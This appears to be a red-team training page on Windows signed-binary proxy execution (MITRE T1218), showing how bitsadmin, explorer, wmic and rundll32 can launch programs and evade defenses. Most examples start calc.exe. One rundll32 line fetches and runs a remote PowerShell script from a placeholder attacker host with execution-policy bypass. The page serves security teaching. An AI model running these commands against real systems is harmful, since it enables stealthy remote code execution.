 # File Operations

## Theory

Here, we will show various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line cmd.exe or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. . This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io)
Based on the MITRE ATT&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**.

## Practice

## Practice

{% tabs %}
{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Execute a file
#One-liner that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job. 
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```
{% endtab %}
{% tab title="explorer.exe" %}
File Explorer is a file manager and system component for Windows. People found that using the file explorer binary can execute other .exe files. This technique is called Indirect Command Execution, where the explorer.exe tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

```bash
#Create a child process of explorer.exe
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
{% endtab %}
{% tab title="wmic.exe" %}
Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. 

```bash
#Execute calc.exe
wmic.exe process call create calc
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% tab title="rundll32.exe" %}
Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. 

```bash
#Execute Binary - calc.exe
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

#Execute powershell scripts
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file executions. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}



## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://lolbas-project.github.io/#" %}